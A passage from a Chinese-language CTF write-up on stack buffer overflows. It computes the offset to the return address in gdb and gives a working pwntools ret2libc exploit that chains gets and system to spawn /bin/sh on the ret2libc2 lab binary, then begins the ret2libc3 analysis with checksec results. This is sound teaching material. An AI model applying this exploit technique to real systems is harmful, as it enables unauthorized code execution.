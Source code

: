 使用与上一题一样的步骤，在`call _gets`的地址`0x080486BA`处下断点，可以看到：栈指针寄存器esp此时的地址为`0xffffced0`，其存放的内容即字符串`s`的地址为`0xffffceec`；基址指针寄存器ebp的地址为`0xffffcf58`。通过计算可得，s 相对于 ebp 的偏移为 `0xffffcf58-0xffffceec=0x6c`。此时内存结构如下图所示：

![image-20230424105446557](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251054230.png)

根据上述思路编写payload，构造内存结果如下：

![image-20230424222956778](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304242229806.png)

最后的payload如下：

```python
from pwn import *

sh = process('./ret2libc2')
buf2 = 0x804a080
gets = 0x08048460
system = 0x08048490
sh.sendline(b'a' * 112 + p32(gets) + p32(system) + p32(buf2) + p32(buf2))
sh.sendline(b'/bin/sh')
sh.interactive()
```

运行payload脚本，可以成功得到shell。

![image-20230424155052755](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251054681.png)

## ret2libc3复现与分析

### 技术点

- checksec检查可执行文件与内核安全属性
- 使用反汇编工具（IDA pro）查找缓冲区溢出入口和可利用的源码片段
- 使用二进制调试工具（gdb）查看寄存器与内存内容
- 泄露共享库基地址
- 通过 got 表泄露共享库中函数的偏移地址
- 利用gadgets构造栈帧，通过ROP调用系统调用
- 计算需要覆写的返回地址的偏移
- payload构造

### 分析

首先通过checksec检查可执行文件的保护机制

![image-20230424205804407](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304242058445.png)

能够得知以下信息：

- 可执行文件为是一个32位的英特尔x86可执行文件，使用小端序编码。
- 开启了“部分Relocation Read-Only”技术。
- 没有开启“堆栈金丝雀（stack canary）”技术。
- 开启了“No-eXecute”保护技术。
- 没有开启“独立位置可执行（Position Independent Executable）”技术。
